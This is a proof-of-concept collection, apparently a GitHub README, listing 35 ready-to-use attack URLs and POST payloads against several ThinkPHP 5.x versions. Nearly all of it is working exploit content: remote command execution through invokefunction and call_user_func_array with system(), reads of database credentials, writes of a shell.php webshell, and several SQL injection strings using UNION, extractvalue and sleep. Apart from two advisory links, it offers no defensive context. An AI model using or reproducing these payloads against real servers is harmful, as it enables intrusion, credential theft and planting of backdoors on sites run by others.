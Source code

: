 # thinkphp-RCE-POC
官方公告:
1、https://blog.thinkphp.cn/869075
2、https://blog.thinkphp.cn/910675

POC：
# thinkphp 5.0.22
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

# thinkphp 5
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1

# thinkphp 5.0.21
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

# thinkphp 5.1.*
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd

# 未知版本
16、?s=index/\think\module/action/param1/${@phpinfo()}
17、?s=index/\think\Module/Action/Param/${@phpinfo()}
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}
19、index.php?s=/home/article/view_recent/name/1' 
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27
21、index.php?s=/home/shopcart/getpriceNum/id/1%27
22、index.php?s=/home/user/cut/id/1%27
23、index.php?s=/home/service/index/id/1%27
24、index.php?s=/home/pay/chongzhi/orderid/1%27
25、index.php?s=/home/pay/index/orderid/1%27
26、index.php?s=/home/order/complete/id/1%27
27、index.php?s=/home/order/complete/id/1%27
28、index.php?s=/home/order/detail/id/1%27
29、index.php?s=/home/order/cancel/id/1%27
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1
    Content-Disposition: form-data; name="couponid"
    1') union select sleep('''+str(sleep_time)+''')#

# thinkphp 5.0.23（完整版）debug模式
32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
# thinkphp 5.0.23(完整版)
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
# thinkphp 5.0.10（完整版）
34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system

# thinkphp 5.1.* 和 5.2.* 和 5.0.*
35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter